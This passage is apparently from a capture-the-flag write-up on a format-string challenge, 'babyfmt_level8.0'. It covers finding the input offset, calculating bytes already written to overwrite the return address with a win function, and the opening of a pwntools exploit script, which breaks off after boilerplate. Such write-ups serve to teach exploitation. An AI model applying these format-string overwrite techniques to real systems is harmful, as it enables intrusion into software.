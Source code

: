```css
[*] Stopped process '/host/babyfmt_level8.0' (pid 216)
[*] Found format string offset: 30
[+] User input starts at  : 30
[+] Needed pads           :7
[+] Numbwritten           :0
```


### Find the suitable target for code redirection

^numbwritten-calculation

The first thing in my mind is the overwrite return address. Why not ? 
Now the first thing finding how many bytes written in so far. To find out easy way set **numbwritten=0x0** and overwrite return with 0x10.

Set breakpoint end of **func** function and what value overwritten there find out.
As you can see when try to write return address with **0x10** it turns out 0x69. That means written bytes **0x59**.

![](images/640016167995a45732d694fe61a98ac8.png)

### get_flag.py

After settling **numbwritten=0x59** and write return address with **win** function.

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template '--libc=./libc.so.6' ./babyfmt_level8.0
from pwn import *

# Set up pwntools for the correct architecture
exe = context.binary = ELF(args.EXE or './babyfmt_level8.0')

# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR

# Use the specified remote libc version unless explicitly told to use the
# local system version with the `LOCAL_LIBC` argument.
```